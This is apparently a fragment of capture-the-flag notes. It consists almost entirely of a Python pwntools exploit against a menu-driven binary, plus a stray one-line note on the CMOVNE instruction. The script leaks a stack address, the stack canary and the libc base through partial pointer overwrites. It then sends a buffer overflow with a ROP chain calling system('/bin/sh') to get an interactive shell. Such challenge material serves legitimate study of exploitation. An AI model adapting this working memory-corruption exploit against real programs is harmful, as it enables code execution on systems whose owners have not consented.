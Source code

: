 ```python
offset = 0
while True:
    r.sendlineafter("0 : exit", "1")
    r.sendlineafter("Input new message >> ", b'B'*0x10 + bytes([offset])) # partial overwrite
    r.sendlineafter("0 : exit", "2")
    r.recvuntil("Name : ")
    data = r.recvline()[:-1]
    if data == b'A'*8:
        break
    offset += 0x10
 
r.sendlineafter("0 : exit", "1")
r.sendlineafter("Input new message >> ", b'B'*0x10 + bytes([offset-0x10])) # partial overwrite
r.sendlineafter("0 : exit", "2")
r.recvuntil("Name : ")
stack = u64(r.recvline()[:-1].ljust(8, b'\x00'))
info(f"stack: {hex(stack)}")
 
##### leak canary
r.sendlineafter("0 : exit", "1")
r.sendlineafter("Input new message >> ", b'B'*0x10 + p64(stack+0x78+1))
r.sendlineafter("0 : exit", "2")
r.recvuntil("Name : ")
canary = b'\x00' + r.recv(7)
info(f"canary: {canary}")
 
##### leak libc
r.sendlineafter("0 : exit", "1")
r.sendlineafter("Input new message >> ", b'A'*0x10 + p64(_stdout_got))
r.sendlineafter("0 : exit", "2")
r.recvuntil("Name : ")
libc = u64(r.recvline()[:-1].ljust(8, b'\x00')) - 0x1ec6a0
info(f"libc: {hex(libc)}")
 
binsh = libc + 0x1b75aa
_system = libc + 0x55410
pop_rdi_ret = 0x401713
ret = 0x400df1
rop = p64(pop_rdi_ret) + p64(binsh) + p64(ret) + p64(_system)
payload = b'A'*0x10 + p64(stack + 0x60) + p64(0x8) + b'B'*0x10 + p64(0) + canary + b'C'*0x18 + rop
 
r.sendlineafter("0 : exit", "1")
r.sendlineafter("Input new message >> ", payload)
r.sendlineafter("0 : exit", "0")                                             
 
r.interactive()
```

- asm:
  - `CMOVNE DST, SRC`: The cmovne conditional move if not equal check the state of ZF

